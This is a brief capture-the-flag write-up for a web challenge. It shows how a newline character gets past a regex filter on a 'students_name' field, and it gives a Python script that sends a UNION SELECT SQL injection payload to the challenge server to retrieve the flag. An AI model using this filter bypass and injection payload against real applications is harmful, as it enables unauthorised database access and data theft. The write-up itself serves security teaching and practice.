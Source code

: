 We need to bypass this in order to execute an SQL Injection

```if re.search(".'", students_name) or students_name[0] == "'"```

We can bypass ```re.search(".'", students_name)``` with a new line **\n**

```python
import re
import requests

r = requests.post("https://infreezy.pythonanywhere.com/vaccine_revenge", data={"students_name":"\n'union select 1,2,flag from s3cret_fl4g--"})
re.search("inf{.*}", r.text)

```
*inf{I_h0p3_v4cC1n3_F@R_c0V1D19_15_R3aL}*


Challenge author: t0m7r00z
